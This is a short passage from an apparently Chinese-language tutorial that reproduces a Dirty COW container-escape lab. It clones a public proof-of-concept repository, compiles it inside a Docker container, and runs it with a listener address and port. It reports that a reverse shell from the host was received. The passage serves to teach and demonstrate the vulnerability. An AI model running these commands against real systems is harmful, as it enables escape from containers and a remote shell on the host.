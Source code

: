 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>git clone https://github.com/gebl/dirtycow-docker-vdso.git<br>cd dirtycow-docker-vdso/<br>sudo docker-compose run dirtycow /bin/bash<br>``` |

\*\*漏洞利用：\*\*进入容器，编译 POC 并执行

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>cd /dirtycow-vdso/<br>make<br>./0xdeadbeef 172.19.0.1:4444<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210203160116.png-water_print](assets/1699410763-b8f5d2df4ec8c7a1f847889bbafe3cc1.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210203160116.png-water_print")

在 172.19.0.1 监听本地端口，成功接收到宿主机反弹的 shell。
